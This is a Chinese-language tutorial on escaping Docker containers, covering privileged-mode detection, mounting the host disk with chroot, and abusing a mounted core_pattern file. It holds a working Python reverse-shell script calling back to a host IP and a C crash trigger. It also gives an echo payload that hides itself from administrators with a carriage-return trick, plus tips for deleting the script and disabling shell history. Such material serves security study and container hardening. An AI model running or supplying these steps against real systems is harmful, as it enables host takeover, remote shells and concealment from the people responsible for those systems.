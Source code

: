 # DockerEscape

> https://www.cdxy.me/?p=818 

DockerEscape的意义在于找到未隔离的部分并加以利用，导致隔离失效：

* 用户层面：用户配置不当
* 服务层：容器服务自身实现不当
* 系统层：Linux内核漏洞

## docker配置不当导致容器逃逸

自从Docker 0.6开始，docker提供了一个`privileged`参数，这个参数可以赋予容器真正的root权限，这个参数最初的目的是为了提供在docker中运行docker的能力，在docker支持该参数之前，docker中的root权限只相当于一个普通用户的权限。

## 启动一个特权模式容器

docker命令：

~~~bash
docker run -it --privileged nginx /bin/bash
~~~

k8s中，在pod的yaml配置中添加配置（因为对k8s还没深入了解，具体看参考文章）

## 检测当前环境是不是以特权模式启动

查看容器状态：

~~~bash
root@132130ed3670:/# cat /proc/self/status | grep "CapEff"
CapEff:	0000003fffffffff
~~~

如果特权模式启动的话，那么`CapEff`的掩码应该是0000003fffffffff

`linux的Capabilities机制`

它对用户的权限进行了更细致的分类，可以对单个线程进行更精度的权限控制。避免粗暴的root特权用户和常规用户的简单区分。当一个进程要进行某个特权操作时,操作系统会检查cap_effective的对应位是否有效,而不再是检查进程的有效UID是否为0。

## 挂载宿主机目录

​	chroot命令即 change root directory (更改 root 目录)。在 linux 系统中，系统默认的目录结构都是以 /，即以根 (root) 开始的。而在使用 chroot 之后，系统的目录结构将以指定的位置作为 / 位置。

​	在经过 chroot 之后，在新根下将访问不到旧系统的根目录结构和文件，这样就增强了系统的安全性。一般会在用户登录前应用 chroot，把用户的访问能力控制在一定的范围之内。

​	由于`privileged`特权，现在容器具备了真正的root权限，所以可以通过mount挂载主机磁盘，那么挂载之后，通过chroot改变根目录就可以实现docker escape的效果。

测试：在容器中执行以下命令

~~~bash
mkdir /abc
mount /dev/sda1 /abc
chroot /abc/
~~~

## 挂载/proc

​	Linux内核提供了一种通过/proc文件系统，在运行时访问内核内部数据结构，改变内核设置的机制，其中动态的反映着系统内存进程以及其他组件的状态，该文件系统是一个伪文件系统，只存在于内存里面，不占用外存空间。它以文件系统的方式为访问系统内核数据的操作提供接口。

​	docker通过在启动时挂载/proc到容器内部也可以实现逃逸。

​	从2.6.19内核版本开始，Linux支持在/proc/sys/kernel/core_pattern中使用新语法。如果该文件中的首个字符是管道符|，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。

​	`/proc/sys/kernel/core_pattern`文件是负责进程奔溃时内存数据转储的，当第一个字符是`|`管道符时，后面的的部分会以命令行的方式进行解析并运行，同时因为主机和宿主机其实是共用一个内核的，因此命令会以宿主机的权限进行执行。

​	docker启动命令如下：

~~~bash
docker run -itd -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern ubuntu
~~~

测试结果：

![image-20210222180536662](docker create解析.assets/image-20210222180536662.png)

​	复现原理：在容器启动的时候挂载宿主机的proc目录到容器内，然后向宿主机的proc写payload实现docker escape。

​	反弹shell脚本：

~~~python
#!/usr/bin/python3
import  os
import pty
import socket
lhost = "172.17.0.1"
lport = 10000
def main():
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((lhost, lport))
   os.dup2(s.fileno(), 0)
   os.dup2(s.fileno(), 1)
   os.dup2(s.fileno(), 2)
   os.putenv("HISTFILE", '/dev/null')
   pty.spawn("/bin/bash")
   # os.remove('/tmp/.x.py') #这个可以用来删除痕迹
   s.close()
if __name__ == "__main__":
   main()
~~~

​	引发错误的程序：

~~~c
#include<stdio.h>
int main(void)  {
   int *a  = NULL;
   *a = 1;
   return 0;
}
~~~

所以，容器需要gcc 和 vim 两个工具进行辅助（容器默认是不携带这些工具的），同时还需要注意，Linux的转储机制对/proc/sys/kernel/core_pattern内程序的查找是在宿主机文件系统上进行的，但是容器里的/tmp/x.py是容器内路径，因此需要拿到容器在宿主机上的绝对路径：

~~~bash
root@0817d6a165cd:/# cat /proc/mounts | grep "docker"
overlay / overlay rw,relatime,lowerdir=/var/lib/docker/overlay2/l/5OMZKSJB7ICWURACQSRL547EHI:/var/lib/docker/overlay2/l/XUWU2IIVZX3WFYWE2F3B5237RI:/var/lib/docker/overlay2/l/GMQO6W6WC2TEC3NRC5NYHOSBUQ:/var/lib/docker/overlay2/l/O4RKKFSGX3RCZVIUIJPNJJYF4R,upperdir=/var/lib/docker/overlay2/45cdf19f22d70d33529115a55abf55084f7e30912b7f705315317217cbe147ca/diff,workdir=/var/lib/docker/overlay2/45cdf19f22d70d33529115a55abf55084f7e30912b7f705315317217cbe147ca/work,xino=off 0 0
~~~

写入payload，将之前准备的/tmp/.x.py写入到目标位置:

~~~bash
echo -e "|/var/lib/docker/overlay2/45cdf19f22d70d33529115a55abf55084f7e30912b7f705315317217cbe147ca/merged/tmp/.x.py \rcore " > /host/proc/sys/kernel/core_pattern
~~~

如此当执行之前的C程序发生崩溃的时候，之前写入的payload就可以被执行。

1. payload中使用空格加\r的方式，巧妙覆盖掉了真正的｜/tmp/.x.py，这样一来，即使管理员通过cat /proc/sys/kernel/core_pattern的方式查看，也只能看到core；
2. /tmp/.x.py是一个隐藏文件，直接ls是看不到的；
3. os.remove("/tmp/.x.py")在反弹shell的过程中删掉了用来反弹shell的程序自身。







